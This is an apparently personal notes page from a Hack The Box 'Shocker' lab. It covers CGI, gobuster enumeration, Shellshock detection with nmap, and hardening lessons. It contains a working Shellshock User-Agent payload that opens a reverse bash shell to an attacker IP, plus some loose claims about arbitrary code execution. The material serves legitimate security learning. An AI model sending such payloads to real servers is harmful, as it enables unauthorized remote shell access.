 ```yaml
---
layout: single
title: "Shocker"
permalink: /shocker/
tags: [HTB, Bash, Shellshock]
toc: true
---
```

Instead doing a writeup I have opted to write a summary of the things that I learnt from solving the Shocker box of Hack The Box.

## Cgi-Bin

In computing, Common Gateway Interface (CGI) is an interface specification for web servers to execute programs like console applications (also called command-line interface programs) running on a server that generates web pages dynamically.  Such programs are known as CGI scripts or simply as CGIs.

Shellshock Script vulnerability affected web servers utilizing CGI

The path to "cgi-bin" directory is: `/var/www/html/ex/example.com/cgi-bin`
On Ubuntu, the standard cgi-bin directory is `/usr/lib/cgi-bin`.

## Gobuster -f

Sometimes a directory bursting tool may fail to list directories mainly because of restrition put on the files and directories. In such cases the webserver responds back with 403 status code, Indicating directory exist but you dont have permission to access it. A quick way to sort out this issue is by using the "-f" flag if the tool used was gobuster.

```python
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56 -f
```
For quick discovery of files one can add the files extensions usinf the "-x" flag.

```python
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,pl
```
To list the file extensions 

## Shellshock Script / Bash Bug

ACE(arbitrary code execution) vulnerability attacks are executed on programs that are running, and require a highly sophisticated understanding of the internals of code execution, memory layout, and assembly language—in short, this type of attack requires an expert.

![upload-image]({{ "/assets/imgs/notes/shellshock.png" | relative_url }})

```python
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/4444 0>&1
```

To find out whether a target is vulnerable to shellshock, we use a nmap script.

```python
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

## Points to note

* Web server misconfiguration. one isn't allowed to access the /cgi-bin directory but is allowed to access the user.sh file inside of that directory. The administrator should have restricted access to all the files in the directory.
* The system was running a version of Bash that was vulnerable to the bash bug. This gave us initial foothold. Administrator should have patched the system since there is a patch already out there.
* Insecure system configuration. Administrators should conform to the principle of least privilege and the concept of separation of privileges. Giving the user sudo access to run perl, allowed easy priviledge escalation of the system.